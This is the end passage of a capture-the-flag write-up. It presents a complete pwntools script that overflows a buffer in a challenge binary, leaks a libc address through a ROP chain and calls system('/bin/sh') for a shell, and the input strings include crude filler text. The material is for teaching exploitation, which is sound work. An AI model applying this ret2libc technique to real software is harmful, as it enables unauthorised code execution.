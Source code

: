 You should have now the following code in your script.
```py
import pwn

e = pwn.ELF("./naughty_list", checksec=False)
libc = pwn.ELF("libc.so.6", checksec=False)
io = pwn.process(e.path)
pwn.context.arch = "amd64"
PADDING = 40

pop_rdi = pwn.p64(0x0000000000401443)
ret = pwn.p64(0x0000000000400756)
puts_at_got = pwn.p64(e.got.puts)
puts_at_plt = pwn.p64(e.plt.puts)
get_descr = pwn.p64(e.symbols.get_descr)

payload = [
    b"A"*PADDING,
    pop_rdi,
    puts_at_got,
    puts_at_plt,
    get_descr
]

io.sendlineafter(b":", b"PENIS")
io.sendlineafter(b":", b"PENIS")
io.sendlineafter(b":", b"69")
io.sendlineafter(b":", b"".join(payload))

io.recvlines(6)
leak = pwn.unpack(io.recvline()[:6].ljust(8, b"\x00"))
pwn.log.info(f"Leaked address {hex(leak)}")

puts_libc_offset = 0x080aa0
libc.address = leak - puts_libc_offset
pwn.log.info(f"Base address of libc : {hex(libc.address)}")

rop = pwn.ROP(libc)
rop.system(next(libc.search(b"/bin/sh\x00")))
io.sendlineafter(b":", pwn.flat({PADDING: [ret, rop.chain()]}))
io.interactive()
```

Running it either locally or remotely on a vulnerable machine drops us a shell, you can read the flag in the flag.txt file ! Hopefully you enjoyed the challenge and the writeup.

